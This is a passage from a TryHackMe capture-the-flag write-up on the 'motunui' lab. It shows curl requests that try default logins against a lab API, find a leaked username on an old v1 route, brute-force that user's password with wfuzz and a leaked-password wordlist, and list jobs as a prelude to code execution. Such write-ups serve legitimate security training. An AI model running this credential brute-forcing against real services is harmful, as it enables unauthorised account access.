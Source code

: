 ### Trying to login with some default credentials
```console
local@local:~/Documents/tryhackme/motunui$ curl -H 'Content-Type: application/json' -d '{"username":"admin","password":"admin"}' -XPOST http://api.motunui.thm:3000/v2/login
{"error":"invalid credentials"
```
The problem here is that we have to be authenticated to perform any type of operation. I tried few default credentials like `admin:admin`, `admin:password` but that didnot work.

As the api version was v2, I checked whether the old api version was still available.

```console
local@local:~/Documents/tryhackme/motunui$ curl http://api.motunui.thm:3000/v1/login
{"message":"please get maui to update these routes"}
```
And we get message back leaking a potential username. I fuzzed all the webservers for some time and decided to bruteforce login credential for user maui.

## Bruteforcing using wfuzz
```console
local@local:~/Documents/tryhackme/motunui$ wfuzz -w /usr/share/wordlists/SecLists-master/Passwords/Leaked-Databases/rockyou-45.txt -c -H 'Content-Type: application/json' 
-d '{"username":"maui","password":"FUZZ"}' --hh 31 -t 50 http://api.motunui.thm:3000/v2/login
********************************************************
* Wfuzz 3.0.3 - The Web Fuzzer                         *
********************************************************

Target: http://api.motunui.thm:3000/v2/login
Total requests: 6163

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                        
===================================================================

000004343:   200        0 L      1 W      19 Ch       "<redacted_password>" 
```
And we get the password for user maui. So, lets login as user maui and view the jobs.

### Logging as user maui
```console
local@local:~/Documents/tryhackme/motunui$ curl -H 'Content-Type: application/json' -d '{"username":"maui","password":"<redacted_password>"}' -XPOST http://api.motunui.thm:3000/v2/login
{"hash":"<redacted_hash>"}
```
We get a hash which is needed to view the jobs.

### Listing the jobs
```console
local@local:~/Documents/tryhackme/motunui$ curl -H 'Content-Type: application/json' -d '{"hash":"<redacted_hash>"}'  http://api.motunui.thm:3000/v2/jobs
{}
```
Looks like there are no any cronjobs running for user maui. Since we can create a new job, lets try if we can get code execution.
